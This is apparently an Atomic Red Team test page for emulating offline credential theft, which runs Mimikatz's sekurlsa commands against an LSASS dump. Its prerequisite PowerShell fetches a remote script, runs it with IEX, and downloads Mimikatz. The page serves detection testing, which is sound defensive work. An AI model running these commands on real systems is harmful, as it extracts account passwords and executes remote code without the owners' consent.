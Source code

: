 

<br/>
<br/>

## Atomic Test #6 - Offline Credential Theft With Mimikatz
The memory of lsass.exe is often dumped for offline credential theft attacks. Adversaries commonly perform this offline analysis with
Mimikatz. This tool is available at https://github.com/gentilkiwi/mimikatz and can be obtained using the get-prereq_commands.

**Supported Platforms:** Windows


**auto_generated_guid:** 453acf13-1dbd-47d7-b28a-172ce9228023





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the Lsass dump | path | %tmp%&#92;lsass.DMP|
| mimikatz_exe | Path of the Mimikatz binary | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{mimikatz_exe}" "sekurlsa::minidump #{input_file}" "sekurlsa::logonpasswords full" exit
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{mimikatz_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path "#{mimikatz_exe}" | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```
##### Description: Lsass dump must exist at specified location (#{input_file})
##### Check Prereq Commands:
```powershell
cmd /c "if not exist #{input_file} (exit /b 1)"
```
##### Get Prereq Commands:
```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```

